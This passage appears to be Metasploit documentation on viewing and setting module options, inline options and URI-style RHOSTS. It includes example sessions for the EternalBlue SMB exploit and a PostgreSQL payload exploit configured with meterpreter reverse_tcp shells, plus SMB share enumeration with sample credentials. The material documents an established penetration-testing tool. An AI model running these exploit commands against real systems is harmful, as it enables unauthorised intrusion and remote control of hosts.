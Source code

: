 ## Module options

Each Metasploit module has a set of options which must be set before running. These can be seen with the `show options` or `options` command:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   ... etc ...


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.239    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Each Metasploit module also has _advanced_ options, which can often be useful for fine-tuning modules, in particular setting connection timeouts values can be useful:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > advanced

Module advanced options (exploit/windows/smb/ms17_010_eternalblue):

   Name                    Current Setting                     Required  Description
   ----                    ---------------                     --------  -----------
   CHOST                                                       no        The local client address
   CPORT                                                       no        The local client port
   CheckModule             auxiliary/scanner/smb/smb_ms17_010  yes       Module to check with
   ConnectTimeout          10                                  yes       Maximum number of seconds to establish a TCP connection
   ... etc ...

Payload advanced options (windows/x64/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on
   ... etc ...
```

You can see which options stilloptions to be set with the `show missing` command:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show missing

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
```

### Setting options

Traditional usage of Metasploit involves loading a module, and setting multiple options individually:

```
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
```

You can also specify multiple RHOSTS separated by spaces or with a CIDR subnet mask:

```
set rhosts 127.0.0.1 127.0.0.2
set rhosts 127.0.0.1/24
```

In 2021 support for running a module and specifying module options at the same time was added, dubbed inline option support. This workflow will not only make it easier to use `reverse-i-search` with `CTRL+R` in Metasploit's console, but it will also make it easier to share cheat sheets amongst pentesters.

Example:

```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64' verbose=true
```

### URI support for RHOSTS

Metasploit also supports the use of [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) strings as arguments,
which allows setting multiple options at once - i.e. username, password, rport, rhost, etc.

```
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
```

The following protocols are currently supported, and described in more detail below:

- cidr - Can be combined with other protocols to specify address subnet mask length
- file - Load a series of RHOST values separated by newlines from a file. This file can also include URI strings
- http
- https
- mysql
- postgres
- smb
- ssh

To preserve whitespace, regardless of the protocol, use quotes:

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

In some scenarios it may be too troublesome to escape quotes within a password. In this scenario it is possible to still set the password option manually and use the URI argument without a password specified, the module will gracefully fallback to using the manually set password:

```
set password !@£$%^&*()"'
run smb://user@192.168.123.13
```

You can also specify multiple RHOST arguments, as well as provide additionally inlined options:

```
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
```
